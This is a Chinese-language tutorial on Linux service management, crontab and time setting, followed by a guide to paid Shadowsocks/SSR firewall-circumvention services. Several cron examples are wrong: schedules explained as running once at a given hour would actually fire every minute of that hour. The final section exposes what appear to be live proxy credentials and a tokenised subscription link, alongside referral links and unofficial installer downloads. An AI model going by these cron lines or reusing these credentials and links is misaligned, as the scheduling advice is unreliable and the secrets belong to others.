- 二进制包(rpm)安装的服务
- 源码包安装的服务

**rpm 安装的服务**

**1. 进目录查看**

​	命令: `vim  /etc/rc.d/init.d`

​	以下显示的都是 已经有的服务


**2. 命令查看**

​	命令: `chkconfig --list`

​	该截图并没有显示完全,  但是跟 第一种 方式看到的服务是一样的


**3. 查看 是否有network 网卡服务**

​	命令: `chkconfig --list | grep network`

​	

**服务管理**

对服务做`开启`,`关闭`,`重启`,`查看状态` 等操作

Linux 对服务有两大启动方式: **手动启动**, **自启动**


**手动启动服务**

```
格式1:
	服务名路径 [状态]
	
格式2:
	service 服务名 [状态]


```

```
状态:
	start 	开启
	restart 重启
	stop    关闭
	status  查看状态


```

1. 开启 sshd 服务 (服务路径开启)

   命令1: `/etc/rc.d/init.d/sshd start`

   首先得确保 sshd是在 /etc/rc.d/init.d 才行


2. 开启 sshd 服务 (service开启)

   命令2: `service sshd start`

​			这也能开启 sshd 服务


**自启动服务**

将需要开机启动的服务 写在一个文件中 或 通过chkconfig命令也行

1. 自启动文件

命令: `vim /etc/rc.local`

添加以下代码,  即可在下一次开机or重启时, 自动启用服务


**2. chkconfig命令**

命令: `chkconfig sshd on`

设置开启自启动服务 sshd,  如果最后设为 off, 则关闭开机自启动


**源码包安装的服务**

对于源码包安装的服务, 没办法在 /etc/rc.d/init.d 查看, 因为源码包都是第三方安装过来的, 服务都在当初的指定安装下呢. 


**手动启动服务**

```
格式:
	服务路径 [状态]
	
	没有 service 的开启方式了, service只适用于rpm服务


```

```
状态:
	start 	开启
	restart 重启
	stop    关闭
	没有 status 状态显示了, 可通过进程查看状态


```

1. 开启 httpd 服务

   命令: `/usr/local/apache2/bin/apachectl  start`

   当初httpd 就是安装在 /usr/local/apache2 下


**自启动服务**

这其实与 rpm服务的操作方式一模一样的, 都是在 `/etc/rc.local` 里设置


## 计划任务

在指定时间 执行指定的事情, 就是计划任务.

例如:

​	每天的凌晨3点, 备份数据库

​	周一上午6点, 更新游戏


```
格式:
	crontab [选项]

```

```
选项:
	-e 	编辑计划任务
	-l  显示计划任务
	-r  删除计划任务

```


**计划任务编辑格式**

```
格式:
	分 时 日 月 周 命令
	

```

```
范围:
	分: 0~59
	时: 0~23
	日: 1~31
	月: 1~12
	周: 0~7 	0或7 都是星期日
	命令: 到指定时间需要执行的命令, 也可以是编写好的脚本

```

```
符号:
	时间格式除了填写数字, 也可以填写符号
	* : 代表所有的可能
	, : 多个选择
	- : 几到几的范围
	/ : 间隔频率

```


**案例:**

1. 准备编辑计划任务

   命令: `crontab -e`

   会进入一个专门填写 计划的文档, 按照上面的格式填写计划

2. 每天23点 直接关机

   命令: `* 23 * * * /sbin/shutdown -h now`

   每天 23点 准时关机 ,  shutdown本身就在 /sbin 管理员命令下, 所以需要加 /sbin

   > 如果没关机, 请使用 date 查看当前Linux时间是否正确.
   >
   > 时间矫正, 请查看本教程的最下面

3. 每天凌晨 5点10分重启Apache服务

   命令: `10 5 * * * /usr/local/apache2/bin/apachectl restart`

4. 每周二~周五的5点重启Apache服务

   命令: `* 5 * * 2-5 /usr/local/apache2/bin/apachectl restart`

5. 每周一, 周三, 周五的5点重启Apache服务

   命令: `* 5 * * 1,3,5 /usr/local/apache2/bin/apachectl restart`

6. 每年7月20号凌晨3点每隔10分钟就重启Apache服务

   命令: `*/10 3 20 7 * /usr/local/apache2/bin/apachectl restart`

7. 删除计划任务

   命令: `crontab -r`

   这是删除了所有的计划任务,  如果只删除个别计划任务, 进计划任务文档单独删除就是


## 时间

**查看时间**

```
格式:
	date [选项]

```

```
选项: 
	-s 	设置时间

```

```
时间格式:
	%s 时间戳,  从1970年1月1日00:00:00到目前经历的秒数

	%Y 年, 4位数的年份
	%m 月（01~12）
	%d 天（01~31）
	%H 小时，24小时制（00~23）
    %M 分钟（00~59）
    %S 显示秒（00~59）
    
    %x,%D 日期（mm/dd/yy）
    %X 显示时间的格式（%H:%M:%S）
    %r 显示时间，12小时制（hh:mm:ss %p）
    %T 显示时间，24小时制（hh:mm:ss)
     
    %Z 显示时区，日期域（CST）
    %a 星期的简称（Sun~Sat）
    %A 星期的全称（Sunday~Saturday）
    %h,%b 月的简称（Jan~Dec）
    %B 月的全称（January~December）
    %c 日期和时间（Tue Nov 20 14:12:58 2012）
    
    %j 一年的第几天（001~366）
    %w 一个星期的第几天（0代表星期天）
    %W 一年的第几个星期（00~53，星期一为第一天）

```

1. 查看当前时间

   命令: `date`

   显示当前时间

2. 按时间格式 -> 查看当前时间

   命令: `date +"%Y-%m-%d %H:%M:%S"` 

   按照指定格式来 显示当前时间

3. 设置时间

   命令: `date -s 10:20:30 `

   将当前时间设置为: 10点20分30秒

   命令: `date -s "2019-10-20 08:09:10"`

   将当前时间设置为: 2019年10月20号 8点9分10秒


**校正时间**

校正时间需要先 安装 ntpdate 软件

1. 安装 ntpdate

   命令: `yum -y install ntpdate`

2. 校正时间

   命令: `ntpdate cn.pool.ntp.org`

3. 更改时区

   命令: `cp /usr/share/zoneinfo/Asia/Shanghai  /etc/localtime`

   将时区设置为 亚洲上海

4. 查看当前是否正确

   命令: `date`


## 翻墙啦

> ​	
>
> **<u>翻墙</u>**
>
> - shadowsocket小飞机
> - vpn   蓝灯
>
> 

官网

https://www.qingyuno.com/user

推荐朋友： 
https://www.qy1a.xyz/auth/register?code=fib

用户中心：
可以选择（套餐等级）商店，购买；
可以选择（余额）充值，2元；
苹果电脑：ShadowsocksX-NG-R8 ；vip2 可以用ShadowsocksX-NG；
微软电脑：
SSRR - [ 全部套餐都可以使用 ]7m；一半用这个比较好
SSR - [ 全部套餐都可以使用 ]829k；
SSTap - [游戏加速全局模式]3m ； 

**节点选择**

```
aws日本1G口；
方法一：配置二维码：Shadowsocksr；
方法二：配置链接：
ssr://MTMuMjMxLjQuMTkwOjgwOmF1dGhfYWVzMTI4X3NoYTE6Y2hhY2hhMjA6aHR0cF9zaW1wbGU6T1Zwc1dEZzUvP29iZnNwYXJhbT1NekF3WXpnMU5EY3lMbTFwWTNKdmMyOW1kQzVqYjIwJnByb3RvcGFyYW09TlRRM01qcFFjbVJRYW5vJnJlbWFya3M9WVhkejVwZWw1cHlzTVVmbGo2TWdMU0E0TUNEbGpaWG5xNl9sajZNJmdyb3VwPVRHbG5hSFFnWTJ4dmRXUQ


订阅定制：
https://subscription.lightyun.site/link/yAORyVjnSQhHw4rw?sub=1&extend=1


```


邀请说明：
您每邀请1位用户注册：
您会获得20 G流量奖励。
对方将获得2元奖励作为初始资金。
对方充值时您还会获得对方充值金额的 30 % 的返利。
返利不支持提现，仅限于购买套餐使用。


**<u>蘑菇</u>**

https://moguss.us/nodeList

**mac**

- [点击此处](https://www.moguss.us/clients/ShadowsocksX-NG-R8.dmg)下载客户端并启动
- 点击状态栏纸飞机 -> 服务器 -> 编辑订阅
- 点击窗口左下角 “+”号 新增订阅，完整复制本页上方“订阅服务”处地址，将其粘贴至“订阅地址”栏，点击右下角“OK”
- 点击纸飞机 -> 服务器 -> 手动更新订阅
- 点击纸飞机 -> 服务器，选定合适服务器
- 点击纸飞机 -> 打开Shadowsocks
- 点击纸飞机 -> PAC自动模式
- 点击纸飞机 -> 代理设置->从 GFW List 更新 PAC
- 打开系统偏好设置 -> 网络，在窗口左侧选定显示为“已连接”的网络，点击右下角“高级...”
- 切换至“代理”选项卡，勾选“自动代理配置”和“不包括简单主机名”，点击右下角“好”，再次点击右下角“应用”

**windows**

- [点击此处](https://moguss.us/clients/SSTap-beta-setup-1.0.9.7.zip)下载客户端并安装（弹出网卡安装时切记一定要信任勾选安装）
- 打开 SSTap，选择 -> SSR订阅 -> SSR订阅管理，添加订阅地址
- 添加完成后，再次选择 - SSR订阅 - 手动更新SSR订阅，即可同步节点列表。
- 在代理模式中选择仅「网络浏览器(全局)」或「网络浏览器跳过中国站点」，点击「连接」即可加速。
- 需要注意的是，一旦连接成功，客户端会自动缩小到任务栏，可在设置中关闭。


**linux**

[点击此处](https://moguss.us/clients/Shadowsocks-qt5-3.0.1.zip)下载客户端并启动

单击状态栏小飞机，找到服务器 -> 编辑订阅，复制黏贴订阅地址

更新订阅设置即可


**ios翻墙**

1. 打开 Shadowrocket，点击左上角 “[]”号 扫描添加节点
2. 或者点击节点列表长得像（小飞机）这个的按钮直接添加
3. 选定合适服务器节点，点击右上角连接开关，屏幕上方状态栏出现“VPN”图标
4. 当进行海外游戏时请将 Shadowrocket “首页” 页面中的 “全局路由” 切换至 “代理”，并确保“设置”页面中的“UDP”已开启转发


**安卓android**

[点击此处](https://moguss.us/clients/ShadowsocksRR-3.5.1.1.apk)下载客户端并启动

单击左上角的shadowsocksR进入配置文件页，点击右下角的“+”号，点击“添加/升级SSR订阅”，完整复制本页上方“订阅服务”处地址，填入订阅信息并保存

选中任意一个节点，返回软件首页

在软件首页处找到“路由”选项，并将其改为“绕过局域网及中国大陆地址”

点击右上角的小飞机图标进行连接，提示是否添加（或创建）VPN连接，点同意（或允许）


**Games**

[点击此处](https://moguss.us/clients/SSTap-beta-setup-1.0.9.7.zip)下载客户端并安装

打开 SSTap，选择  -> SSR订阅 -> SSR订阅管理，添加订阅地址

添加完成后，再次选择  - SSR订阅 - 手动更新SSR订阅，即可同步节点列表。

在代理模式中选择游戏或「不代理中国IP」，点击「连接」即可加速。

需要注意的是，一旦连接成功，客户端会自动缩小到任务栏，可在设置中关闭。


## 参考文献

```
虚拟机快照和克隆相关（转）

https://blog.csdn.net/yuyanli996/article/details/4183708

Mac常用命令清单
https://juejin.im/post/5b03e16c6fb9a07a9b364a90#!!

百度的ai-做机器学习
https://aistudio.baidu.com/aistudio/index

专属邀请链接，通过此链接注册ProcessOn
https://www.processon.com/i/5c75ea3de4b07fada4f54590

UML图中类之间的关系:依赖,泛化,关联,聚合,组合,实现
https://www.cnblogs.com/virgree/articles/5197236.html

UML教程
https://www.w3cschool.cn/uml_tutorial/


蓝灯Windows下载
https://github.com/getlantern/download#%E8%93%9D%E7%81%AFlantern%E6%9C%80%E6%96%B0%E7%89%88%E6%9C%AC%E4%B8%8B%E8%BD%BD
https://getlantern.org/zh_CN/

小飞机
https://moguss.us/

百度云盘；网盘；百度网盘
http://pandownload.com/index.html
```


